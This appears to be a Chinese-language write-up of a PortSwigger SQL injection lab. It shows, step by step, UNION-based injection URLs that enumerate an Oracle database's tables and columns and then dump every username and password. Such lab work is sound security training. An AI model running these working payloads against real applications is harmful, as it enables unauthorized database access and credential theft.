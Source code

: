 The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

### 題目解釋
簡單來說，這一題來打 Oracle

### 解答
一樣先來觀察 column 長度確定為 2

```
https://ac891f181fe52961c027015100b10005.web-security-academy.net/filter
?category=1' UNION SELECT NULL,NULL FROM dual -- -
```

接下來觀察有哪些 Database

```
https://ac891f181fe52961c027015100b10005.web-security-academy.net/filter
?category=1' UNION SELECT NULL,OWNER FROM ALL_TABLES -- -
```
發現他回傳了一大堆QQ。這沒有靈力應該是猜不出來ㄉ`APEX_040000`, `CTXSYS`, `FLOWS_FILES`, `HR`, `MDSYS`, `OUTLN`, `SYS`, `SYSTEM`, `XDB`

不管了，我們直接來看有哪些 Table

```
https://ac891f181fe52961c027015100b10005.web-security-academy.net/filter
?category=1' UNION SELECT NULL,TABLE_NAME FROM ALL_TABLES -- -
```

摁 ... 果然噴了幾千個，直接透過 CTRL + F 搜尋 `USERS` 可以找到符合出題風格 `USERS` 後面配亂數的 `USERS_IOWIWJ`，但我們還是可以回來觀察一下 這個 Table 放在哪個 DB 中。
```
https://ac891f181fe52961c027015100b10005.web-security-academy.net/filter
?category=1' UNION SELECT NULL,OWNER FROM ALL_TABLES WHERE TABLE_NAME='USERS_IOWIWJ' -- -
```
透過回傳值可以知道他在 `SYSTEM` 裡面

接下來取 COLUMN
```
https://ac891f181fe52961c027015100b10005.web-security-academy.net/filter
?category=1' UNION SELECT NULL,COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='USERS_IOWIWJ' -- -
```
可以得知帳號密碼分別在 `USERNAME_DYIIWP` 與 `PASSWORD_NLTKTK` 中


最後就是取資料ㄌ!!

```
https://ac891f181fe52961c027015100b10005.web-security-academy.net/filter
?category=1' UNION SELECT NULL,USERNAME_DYIIWP || ':' || PASSWORD_NLTKTK FROM SYSTEM.USERS_IOWIWJ -- -
```
